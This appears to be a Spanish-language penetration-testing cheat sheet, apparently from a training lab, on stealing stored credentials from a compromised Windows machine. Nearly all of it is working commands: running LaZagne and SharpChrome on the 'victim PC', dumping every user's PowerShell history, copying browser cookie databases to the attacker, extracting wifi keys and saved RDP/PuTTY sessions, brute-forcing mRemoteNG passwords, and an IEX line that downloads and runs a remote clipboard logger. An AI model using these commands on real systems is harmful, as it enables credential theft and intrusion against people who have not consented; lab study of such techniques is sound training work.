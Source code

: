 Como primer herramienta podemos buscar (si estamos por rdp) podemos usar el buscador de windows con las siguientes palabras, talvez aparezcan ficheros con contraseñas guardadas:

- Passwords	
- Passphrases	
- Keys
- Username	
- User account	
- Creds
- Users	
- Passkeys	
- Passphrases
- configuration	
- dbcredential	
- dbpassword
- pwd	
- Login	
- Credentials

Lo siguiente que podemos hacer es unsar lazagne 

https://github.com/AlessandroZ/LaZagne/releases/

Una vez que lo metimos en la pc victima lo corremos con:

    start lazagne.exe all

#### también podemos usar el findr por cmd:

    findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml *.git *.ps1 *.yml

#### Powershell History

    gc (Get-PSReadLineOption).HistorySavePath

#### Podemos también en un oneliner recorrer todos los archivos historicos de powershell a los que tenemos acceso

    foreach($user in ((ls C:\users).fullname)){cat "$user\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt" -ErrorAction SilentlyContinue}

#### El archivo unnatend.xml puede tener contraseñas también

#### Buscar archivos en base a una palabra:

    findstr /spin "password" *.* 

#### Buscar con powershell
    select-string -Path C:\Users\htb-student\Documents\*.txt -Pattern password

#### BUscar una palabra en base a una extensión:
    dir /S /B *pass*.txt == *pass*.xml == *pass*.ini == *cred* == *vnc* == *.config*

#### Extraer contraseñas de sticky notes
Las sticky notes (aunque no lo demuesten) son una base de datos.

Esta base de datos se encuentra en:

C:\Users\<user>\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState\plum.sqlite

Podemos acceder a ella y luego robarla para cargarla en nuestra pc atacante o dumpearla con powershell mediante PSSQLite.
##### Powershell local
- Import-Module .\PSSQLite.psd1
- $db = 'C:\Users\htb-student\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState\plum.sqlite'
- Invoke-SqliteQuery -Database $db -Query "SELECT Text FROM Note" | ft -wrap

##### Linux:
- Robamos el archivo
- Corremos con strings

#### Cmdkey saved credentials
Podemos listar las keys guardadas en el cmd. En un entorno de AD podríamos llegar a encontrar contraseñas guardadas que nos permitan acceder a otros recursos con su ruta incluída.

        cmdkey /list

También podemos correr cosas como el usuario si tiene las creds guardadas en el cmd

        runas /savecred /user:inlanefreight\bob "COMMAND HERE"

#### Extraer credenciales de los browsers:
Podemos usar herramientas como sharpchrome para lograrlo

        .\SharpChrome.exe logins /unprotect

#### También traer contraseñas de chrome:

    gc 'C:\Users\htb-student\AppData\Local\Google\Chrome\User Data\Default\Custom Dictionary.txt' | Select-String password

#### Extraer contraseñas de firefox
Firefox guarda sus contraseñas en una sqlite

##### Robamos la sqlite de la victima
    copy $env:APPDATA\Mozilla\Firefox\Profiles\*.default-release\cookies.sqlite .
##### En la pc atacante:
    python3 cookieextractor.py --dbpath "/home/plaintext/cookies.sqlite" --host slack --cookie d

    
#### Extraer credenciales de Putty, Winscp, Filezilla, SuperPutty y RDP
para esto podemos usar SessionGopher

        Import-Module .\SessionGopher.ps1
        
        Invoke-SessionGopher -Target <Domain>

#### Clear-text passwords en el registro
        HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon

#### Contraseñas de wifi

##### 1) listamos las redes
        netsh wlan show profile
##### 2) Dumpeamos los datos
        netsh wlan show profile <red> key=clear

### mRemteNG
- mRemoteNG es un software que permite conectarse con sistemas remotos mediante VNC,RDP, SSH y otros.
- Guarda las credenciales en el archivo confCons.xml
- su contraseña por defecto es mR3m
- La ubicación de confCons.xml es <user>\appdata\roaming\mremoteng
  #### Desencriptar un password de mremoteng con la contraseña por default
      python3 mremoteng_decrypt.py -s "<password>"
  #### Desencriptar un mremoteng con custom password
      for password in $(cat /usr/share/wordlists/fasttrack.txt);do echo $password; python3 mremoteng_decrypt.py -s "<pass>" -p $password 2>/dev/null;done

### Obtener el clipboard
    IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/inguardians/Invoke-Clipboard/master/Invoke-Clipboard.ps1')
    Invoke-ClipboardLogger
